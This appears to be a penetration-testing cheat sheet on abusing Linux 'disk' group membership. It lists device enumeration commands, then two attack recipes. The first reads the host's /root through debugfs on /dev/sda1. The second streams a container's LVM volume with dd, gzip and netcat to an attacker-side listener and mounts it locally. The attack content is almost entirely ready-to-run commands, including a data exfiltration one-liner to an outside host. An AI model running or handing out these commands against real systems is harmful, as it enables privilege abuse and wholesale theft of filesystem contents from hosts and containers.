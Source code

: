 ```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["Privilege Escalation", "Data Exfiltration", "File System Mounting", "Disk", "Backup", "Privilege Read", "Container", "LVM"]
---
```


### Basic

```console
# Show devices
lsblk
```

```console
# Device attributes
blkid
```

```console
# Show swap on blk
swapon -s
```

```console
# Filesystem info
cat /etc/fstab
```

---

### Abuse #1: Read host's filesystem from container (root)

#### 1. Open target device

```console
debugfs /dev/sda1
```

```console
# Read
ls /root
```

---

### Abuse #2: Read container's filesystem from host

#### 1. Show LVM mappings

```console
ls -l /dev/mapper/
```

#### 2. Exfil container's filesystem

```console
# In our local machine
nc -lvnp <LOCAL_PORT> > dm-0.gz
```

```console
# Target container rootfs, e.g. dm-0
dd if=/dev/dm-0 | gzip -1 - | nc <LOCAL_IP> <LOCAL_PORT>
```

#### 3. Mount locally

```console
# Extract dm-0
gunzip dm-0.gz
```

```console
# Mount the filesystem
sudo mount dm-0-orig /mnt/ 
```

```console
# Read
ls /mnt/root/
```

<small>*Note: can take a long time to transfer*</small>
